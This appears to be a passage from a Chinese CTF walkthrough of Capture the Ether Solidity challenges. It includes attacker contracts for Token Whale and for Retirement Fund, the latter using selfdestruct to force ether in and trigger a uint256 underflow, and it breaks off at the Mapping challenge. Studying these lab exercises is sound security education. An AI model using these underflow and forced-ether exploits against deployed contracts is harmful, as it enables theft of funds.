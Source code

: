 ```solidity


contract attacker {
    TokenWhaleChallenge target;
    constructor(address des) public {
        target = TokenWhaleChallenge(des);
    }
    function transfer(){
        target.transfer(msg.sender,10000000);
    }
    function transferFrom(){
        target.transferFrom(msg.sender, 0x4609F29Ea40a78196dCbc7EA54dAB8a02518984a, 1);
    }
}
```

运行完相应函数之后, 返回Check, 完成✅

---

###### Retirement Fund

这个题的要求是, 我们部署了一个退休基金的合约, 合约要求是 存款人10年之后才能提取这笔钱, 不然就只能取90%, 我们要做的就是, 如何在没有惩罚的前提下把这笔钱提取出来. 

**首先明确的是, 我们是不能够运行 withdraw 这个fucntion的, 因为owner不是我们的地址.** 

解题重点是这句话  `uint256 withdrawn = startBalance - address(this).balance;` 首先明确 withdrawn 是uint256类型, 正常来说, startBalance 和 address(this).balance, 一般是前者大于后者的过程, 而且 startBalance是不能改动的, 那么 如果 我们能让 startBalance < address(this.balance) 的情况发生, 那么 withdraw则是一个大于0的数[ uint256类型, 溢出 ], 则这个题目 可解.

**再来看函数, 貌似 不能向合约中直接转账, 没有fallback或者receive函数, 所以, 我们用别的方法 `selfdestruct`, 即我们用一个中间合约, 用这个合约向我们的银行地址转账, 然后 selfdestruct 掉, 这样就能使得 address(this).balance > startBalance**

```solidity
pragma solidity ^0.4.21;
contract RetirementFundAttacker {
    constructor() public payable {
    }
    function kill(address des) public {
        selfdestruct(address(des));
    }

}
```

新建合约的时候, 打一点钱比如 1wei, 然后调用kill函数.  再返回银行地址调用 collectPenalty 函数.

最后返回check, 完成✅

---

###### Mapping

这个题一看其实 挺懵的, 因为 这里并没有像之前的题目一样, 里面标明isComplete的值, 也告诉我们满足什么条件isComplete会返回True, 这个合约里的代码, 只有一个变量 isComplete, 其余的 则是一个动态数组
